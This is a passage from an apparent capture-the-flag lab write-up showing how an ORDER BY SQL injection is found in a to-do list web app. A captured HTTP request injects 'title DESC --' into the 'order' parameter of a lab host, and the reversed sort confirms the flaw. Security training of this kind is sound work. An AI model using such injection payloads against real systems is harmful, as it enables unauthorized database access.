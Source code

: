 ![Homepage](/assets/img/thm-prioritise-default-sort-asc.png)

If we capture the request and modify the `order` parameter and inject ` DESC--` to change the ordering to descending order and comment out the rest of the query.

```
GET /?order=title%20DESC%20-- HTTP/1.1
Host: 10.10.63.92
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://10.10.63.92/?success=Added%20new%20item
Upgrade-Insecure-Requests: 1
```

We get our todo list in descending order, confirming this application is vulnerable to an [order by sql injection](https://portswigger.net/support/sql-injection-in-the-query-structure).

![Homepage](/assets/img/thm-prioritise-injection-sort-desc.png)
